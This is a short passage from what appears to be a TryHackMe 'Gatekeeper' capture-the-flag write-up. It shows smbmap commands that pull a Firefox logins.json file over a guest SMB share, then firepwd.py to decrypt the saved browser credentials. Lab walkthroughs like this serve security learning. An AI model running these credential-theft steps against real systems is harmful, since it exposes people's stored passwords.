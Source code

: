 ![smb key](/images/THM/gatekeeper/Captura40.PNG)

```sh
smbmap -H <IP> -u guest -p "" --download 'Users\Share\logins.json'
```

![smb logins](/images/THM/gatekeeper/Captura41.PNG)

Now, with the two files in the same directory, we run the tool, and we will have the credentials back.

```sh
python3 firepwd.py
```

![firepwd cred](/images/THM/gatekeeper/Captura42.PNG)
